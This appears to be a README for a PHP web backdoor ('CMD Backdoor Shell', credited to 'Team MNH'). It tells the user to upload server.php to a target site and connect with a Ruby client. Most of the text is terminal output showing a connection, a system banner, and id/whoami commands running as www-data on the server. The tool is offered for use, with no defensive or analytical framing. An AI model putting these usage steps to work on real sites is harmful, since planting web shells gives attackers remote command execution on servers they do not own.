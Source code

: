 CMD Backdoor Shell 

{#}Owned By Team MNH{#}

First Upload server.php

and run ruby connect.rb http://yoursite.com/server.php

┌─[root@parrot]─[/cmd-backdoor-shell]
└──╼ #ruby connect.rb 

	[!] CMD Backdoor Shell [!]

Usage: ruby connect.rb http://target.com/server.php

┌─[root@parrot]─[/cmd-backdoor-shell]
└──╼ #ruby connect.rb http://localhost/server.php
Connected to http://localhost/server.php
Linux parrot 4.14.0-parrot13-686-pae #1 SMP Parrot 4.14.13-1parrot13 (2018-01-21) i686 GNU/Linux
Current Patch : /var/www/html

bash $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash $ whoami
www-data
bash $ 




